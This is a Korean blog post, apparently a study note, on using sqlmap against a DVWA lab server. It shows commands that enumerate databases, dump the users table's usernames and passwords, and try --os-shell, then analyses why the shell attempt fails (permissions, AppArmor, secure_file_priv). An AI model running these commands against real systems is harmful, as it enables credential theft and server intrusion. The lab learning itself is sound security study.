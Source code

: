 ```yaml
---
layout: post
title: "Sqlmap 공부"
date: 2025-09-07 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. Sqlmap 개요

Sqlmap은 SQL Injection 취약점을 탐지하고 공격을 자동화하는 오픈소스 도구이다. 명령 줄 인터페이스(CLI) 기반으로 동작하며 데이터베이스 정보를 탈취하거나 서버의 운영체제 명령어까지 실행할 수 있는 강력한 기능을 갖추고 있다.

수동으로 하려면 매우 오래 걸리는 Blind SQL Injection과 같은 공격을 자동화하여 공격 시간을 획기적으로 단축시킨다.

---

### 2. 기본 사용법 및 옵션

#### **기본 스캔**
`-u` 옵션으로 취약점을 점검할 URL을 지정한다. Sqlmap이 테스트할 파라미터를 URL에 포함해야 한다.
```bash
sqlmap -u "http://[Target IP]/vulnerabilities/sqli/?id=1&Submit=Submit#"
```

#### **주요 옵션**
*   **--cookie="[COOKIE]"**: 인증이 필요한 페이지를 점검할 때 사용한다. 브라우저에서 복사한 쿠키 값을 입력한다.
*   **--dbs**: 공격 가능한 데이터베이스의 목록을 보여준다.
*   **-D [DB_NAME] --tables**: 특정 데이터베이스에 포함된 테이블 목록을 보여준다.
*   **-D [DB_NAME] -T [TABLE_NAME] --columns**: 특정 테이블에 포함된 컬럼 목록을 보여준다.
*   **-D [DB_NAME] -T [TABLE_NAME] -C [COLUMN_NAME] --dump**: 특정 컬럼의 데이터를 모두 추출하여 보여준다.
*   **--batch**: 스캔 과정에서 Sqlmap이 묻는 모든 질문에 기본값(Y)으로 자동 응답한다.

---

### 3. 사용 예시

Target 서버 `192.9.200.11`의 DVWA SQL Injection 페이지를 대상으로 데이터베이스 목록을 확인하고 사용자 정보를 탈취했다.

#### **데이터베이스 목록 확인**
```bash
sqlmap -u "http://192.9.200.11/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=..." --dbs
```
   ![SqlmapDbs](/assets/images/Sql_1.png)

#### **`users` 테이블 데이터 탈취**
위에서 확인한 `dvwa` 데이터베이스의 `users` 테이블에서 `user`, `password` 컬럼의 내용을 탈취한다.
```bash
sqlmap -u "..." --cookie="..." -D dvwa -T users -C user,password --dump
```
   ![SqlmapDump](/assets/images/Sql_2.png)

---

### 4. 운영체제 쉘 획득 `--os-shell` 시도 및 분석

`--os-shell` 옵션은 Sqlmap의 가장 강력한 기능 중 하나로 성공 시 대상 서버의 운영체제 쉘을 획득하여 직접 명령을 내릴 수 있다. 이 기능은 SQL Injection을 통해 웹 서버의 쓰기 가능한 경로에 명령어 실행을 위한 작은 스크립트(Stager)를 업로드하는 방식으로 동작한다.

#### **실행 명령어**
```bash
sqlmap -u "http://192.9.200.11/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="..." --os-shell
```

#### **실행 결과 및 분석**
명령어 실행 결과 `os-shell` 획득에 실패했다. 로그 분석 결과 핵심적인 실패 원인은 `sqlmap`이 스크립트(Stager) 파일을 대상 서버의 웹 디렉터리에 업로드하지 못했기 때문으로 확인되었다.

   ![SqlmapOshellFail](/assets/images/Sql_3.png)

터미널 로그에 반복적으로 나타난 아래의 경고 메시지가 이를 명확히 보여준다.
`[WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)`

이러한 실패는 DVWA가 설치된 최신 리눅스 서버 환경의 다층적인 보안 설정(Defense in Depth)에 기인한 것으로 분석된다. 주요 방어 메커니즘은 다음과 같다.

*   **파일 시스템 권한:** 웹 서버의 Document Root`/var/www/html` 디렉터리는 웹 서버 사용자`www-data`에게만 쓰기 권한이 제한적으로 부여된다. SQL 쿼리를 실행하는 데이터베이스 사용자`mysql`는 이 디렉터리에 파일을 쓸 권한이 기본적으로 없다.

*   **리눅스 보안 모듈 (AppArmor):** Ubuntu와 같은 최신 배포판은 AppArmor를 통해 각 서비스(프로세스)가 허용된 경로 외에는 접근하지 못하도록 통제한다. `mysql` 프로세스는 자신의 데이터 디렉터리 외의 다른 경로에 파일을 생성하려는 시도 자체가 차단된다.

*   **데이터베이스 자체 보안 설정 `secure_file_priv`:** 최신 MySQL/MariaDB는 `secure_file_priv`라는 시스템 변수를 통해 파일 입출력을 특정 디렉터리로만 제한하거나 완전히 비활성화하는 기능을 기본적으로 제공한다. 이 설정이 활성화되어 있다면 파일 시스템 권한이 허용되더라도 데이터베이스 스스로 파일 생성을 거부한다.

결론적으로 현대의 웹 서버 환경은 기본 설정만으로도 `sqlmap`의 `--os-shell`과 같은 자동화된 파일 생성 공격을 효과적으로 방어할 수 있음을 확인했다.

<hr class="short-rule">
